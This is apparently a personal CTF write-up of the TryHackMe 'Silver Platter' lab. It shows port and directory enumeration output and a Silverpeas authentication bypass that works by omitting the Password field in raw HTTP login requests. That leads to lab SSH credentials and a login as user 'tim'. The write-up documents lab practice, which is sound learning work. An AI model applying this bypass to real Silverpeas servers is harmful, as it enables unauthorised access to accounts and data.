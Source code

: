 # Hack Log 16 - TryHackMe [Silver Platter](https://tryhackme.com/room/silverplatter)

📆:**Date:** 2025-10-07  
🔍**Objective:** Obtain user and the root flag.  
🎯**Target**: TryHackme Silver Platter (Lab CTF)  

---  

## 🛠️ Actions Taken  

### 🧰 Port and Service Enumeration

```bash

$ nmap -sV 10.201.74.112
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-16 11:03 IST
Nmap scan report for 10.201.74.112
Host is up (0.25s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
8080/tcp open  http-proxy
```
→ A webpage is being served on port 80.  
→ A http proxy is running on port 8080.  


### 📂 Directory Enumeration  

→ Enumerating site served on port 80.  
```bash

ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.201.74.112/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.201.74.112/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 215ms]
images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 230ms]
```
→ Nothing interesting.  
→ Enumerating http-proxy served on port 8080.  

```bash
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.201.74.112:8080/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.201.74.112:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

console                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 236ms]
website                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 218ms]
```
→ Visiting the "console" and "website" resulted in just page not found error.  

### 🔐 Authentication Bypass  
→ Upon exploring the website on port 80, found a message on Contacts page.  
```html
If you'd like to get in touch with us, please reach out to our project manager on Silverpeas. His username is "scr1ptkiddy".
```
→ The message mentions "Silverpeas" and a username "scr1ptkiddy".  
→ Silverpeas is an open-source software for collaboration in a company environment.  
→ Silverpeas was running on port 8080 at "http://10.201.74.112:8080/silverpeas". Visiting the address gave a Login Page.  
→ Upon researching about vulnerabilities in Silverpeas, found an authentication bypass vulnearbility in silverpeas.  
→ This vulnerability allows unauthenticated access by omitting the "password" field from the Login request to AuthenticationServlet.    
→ Intercepting the login request on Burp.  
  ```html
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.201.74.112:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.201.74.112:8080
Connection: keep-alive
Referer: http://10.201.74.112:8080/silverpeas/defaultLogin.jsp
Cookie: JSESSIONID=y-dOkJy1a-luTcqZiBg0vPXC0RAHpit9c10k9z9E.ebabc79c6d2a; defaultDomain=0; svpLogin=Manager
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Login=scr1ptkiddy&Password=pass&DomainId=0
```
→ Modifying the request by completely omitting the Password filed.  

```html
POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.201.74.112:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.201.74.112:8080
Connection: keep-alive
Referer: http://10.201.74.112:8080/silverpeas/defaultLogin.jsp
Cookie: JSESSIONID=y-dOkJy1a-luTcqZiBg0vPXC0RAHpit9c10k9z9E.ebabc79c6d2a; defaultDomain=0; svpLogin=Manager
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Login=scr1ptkiddy&DomainId=0
```

→ Forwarding the intercepted request resulted in succesfull login as user "scr1ptkiddy".  
→ Upon exploring the Silverpeas portal, found 2 more users 
  - Manager
  - Administrateur
→ Attempted to login as Administrateur using the same bypass technique but it didn't worked.
→ Succesfully logged in as "Manager" via the same bypass technique.
→ The inbox of the user "Manager" on Silverpeas portal had a message
```bash
Dude how do you always forget the SSH password? Use a password manager and quit using your silly sticky notes. 

Username: tim

Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```
→ Found the SSH credentials.  

### SSH Login  

→ Using the found credentials, succesfully logged in via ssh as user "tim".  






